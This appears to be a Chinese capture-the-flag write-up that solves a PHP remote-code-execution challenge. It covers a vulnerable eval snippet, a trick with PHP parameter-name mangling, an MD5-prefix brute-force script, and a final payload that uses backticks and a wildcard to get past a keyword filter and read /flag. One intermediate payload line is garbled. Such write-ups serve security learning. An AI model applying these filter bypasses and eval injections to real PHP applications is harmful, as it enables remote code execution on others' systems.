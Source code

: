 ## R!C!E!

```php
<?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
    $password=md5($_POST['password']);
    $code=$_POST['e_v.a.l'];
    if(substr($password,0,6)==="c4d038"){
        if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
            eval($code);
        }
    }
}
```

代码审计

- `password`的md5值需要等于 c4d038
- `e_v.a.l` 构造为 `echo`uniq /flag");`

**需要注意的是：**

> php在接收参数的时候发现表单名有点号（.）或者空格( )的时候会自动把它们转化为下划线，e_v.a.l会变成`e_v_a_l`被服务器接受，自然无法命令执行。但是php会把表单名里的`[`自动转化为`_`

### md5爆破

在网上学习到的脚本

```python
import hashlib

prefix = "c4d038"  # 目标MD5值的前六位
prefix_bytes = prefix.encode()  # 将前缀转换为字节串

for i in range(100000000):
    b = i.to_bytes(22, 'big')
    m = hashlib.md5(str(i).encode()).hexdigest()
    
    if m.startswith(prefix):
        print(i)
        print(m)
        break
```

Result：

```bash
[Running] python -u "e:\bxweb\ceshi\Python脚本\md5爆破.py"
114514
c4d038b4bed09fdb1471ef51ec3a32cd
```



**最终payload**

```
password=114514&e[v.a.l=echo`uniq /fla*`;
```

